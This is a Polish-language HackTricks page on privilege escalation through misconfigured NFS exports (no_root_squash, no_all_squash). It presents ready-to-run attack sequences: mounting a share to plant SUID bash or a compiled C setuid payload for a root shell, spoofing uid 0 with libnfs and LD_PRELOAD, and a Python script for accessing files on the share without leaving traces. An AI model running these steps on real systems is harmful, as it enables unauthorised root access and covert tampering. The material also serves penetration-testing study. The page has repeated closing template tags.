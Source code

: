 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}


Przeczytaj plik _ **/etc/exports** _ , jeśli znajdziesz jakiś katalog skonfigurowany jako **no\_root\_squash**, wtedy możesz **uzyskać dostęp** do niego **jako klient** i **zapisać w** tym katalogu **jakbyś był** lokalnym **rootem** maszyny.

**no\_root\_squash**: Ta opcja zasadniczo daje uprawnienia użytkownikowi root na kliencie do dostępu do plików na serwerze NFS jako root. Może to prowadzić do poważnych implikacji bezpieczeństwa.

**no\_all\_squash:** To jest podobne do opcji **no\_root\_squash**, ale dotyczy **użytkowników niebędących rootem**. Wyobraź sobie, że masz powłokę jako użytkownik nobody; sprawdziłeś plik /etc/exports; opcja no\_all\_squash jest obecna; sprawdź plik /etc/passwd; emuluj użytkownika niebędącego rootem; utwórz plik suid jako ten użytkownik (montując za pomocą nfs). Wykonaj suid jako użytkownik nobody i stań się innym użytkownikiem.

# Podwyższenie uprawnień

## Zdalny exploit

Jeśli znalazłeś tę lukę, możesz ją wykorzystać:

* **Zamontuj ten katalog** na maszynie klienckiej, a **jako root skopiuj** do zamontowanego folderu binarkę **/bin/bash** i nadaj jej prawa **SUID**, a następnie **wykonaj z maszyny ofiary** tę binarkę bash.
```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```
* **Zamontowanie tego katalogu** na maszynie klienckiej, a następnie **jako root skopiowanie** do zamontowanego folderu naszego skompilowanego ładunku, który wykorzysta uprawnienia SUID, nada mu **uprawnienia SUID** i **wykonanie z maszyny ofiary** tego binarnego pliku (możesz znaleźć tutaj kilka [ładunków C SUID](payloads-to-execute.md#c)).
```bash
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHAREDD_FOLDER>
./payload #ROOT shell
```
## Local Exploit

{% hint style="info" %}
Zauważ, że jeśli możesz stworzyć **tunel z twojej maszyny do maszyny ofiary, nadal możesz użyć wersji zdalnej, aby wykorzystać tę eskalację uprawnień, tunelując wymagane porty**.\
Następujący trik dotyczy sytuacji, gdy plik `/etc/exports` **wskazuje na adres IP**. W takim przypadku **nie będziesz mógł użyć** w żadnym przypadku **eksploatu zdalnego** i będziesz musiał **wykorzystać ten trik**.\
Innym wymaganym warunkiem, aby eksploatacja działała, jest to, że **eksport w `/etc/export`** **musi używać flagi `insecure`**.\
\--_Nie jestem pewien, czy jeśli `/etc/export` wskazuje na adres IP, ten trik zadziała_--
{% endhint %}

## Basic Information

Scenariusz polega na wykorzystaniu zamontowanego udziału NFS na lokalnej maszynie, wykorzystując błąd w specyfikacji NFSv3, który pozwala klientowi określić swój uid/gid, co potencjalnie umożliwia nieautoryzowany dostęp. Eksploatacja polega na użyciu [libnfs](https://github.com/sahlberg/libnfs), biblioteki, która umożliwia fałszowanie wywołań RPC NFS.

### Compiling the Library

Kroki kompilacji biblioteki mogą wymagać dostosowań w zależności od wersji jądra. W tym konkretnym przypadku wywołania syscalls fallocate zostały zakomentowane. Proces kompilacji obejmuje następujące polecenia:
```bash
./bootstrap
./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/
```
### Przeprowadzenie Eksploitu

Eksploit polega na stworzeniu prostego programu C (`pwn.c`), który podnosi uprawnienia do roota, a następnie uruchamia powłokę. Program jest kompilowany, a wynikowy plik binarny (`a.out`) jest umieszczany na udostępnieniu z suid root, używając `ld_nfs.so` do fałszowania uid w wywołaniach RPC:

1. **Skompiluj kod eksploitu:**
```bash
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```

2. **Umieść exploit na udostępnieniu i zmodyfikuj jego uprawnienia, fałszując uid:**
```bash
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chown root: nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

3. **Wykonaj exploit, aby uzyskać uprawnienia roota:**
```bash
/mnt/share/a.out
#root
```

## Bonus: NFShell do Dyskretnego Dostępu do Plików
Gdy uzyskano dostęp roota, aby interagować z udostępnieniem NFS bez zmiany właściciela (aby uniknąć pozostawiania śladów), używany jest skrypt Pythona (nfsh.py). Skrypt ten dostosowuje uid, aby odpowiadał uid pliku, do którego uzyskuje się dostęp, co pozwala na interakcję z plikami na udostępnieniu bez problemów z uprawnieniami:
```python
#!/usr/bin/env python
# script from https://www.errno.fr/nfs_privesc.html
import sys
import os

def get_file_uid(filepath):
try:
uid = os.stat(filepath).st_uid
except OSError as e:
return get_file_uid(os.path.dirname(filepath))
return uid

filepath = sys.argv[-1]
uid = get_file_uid(filepath)
os.setreuid(uid, uid)
os.system(' '.join(sys.argv[1:]))
```
Uruchom jak:
```bash
# ll ./mount/
drwxr-x---  6 1008 1009 1024 Apr  5  2017 9.3_old
```
{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}

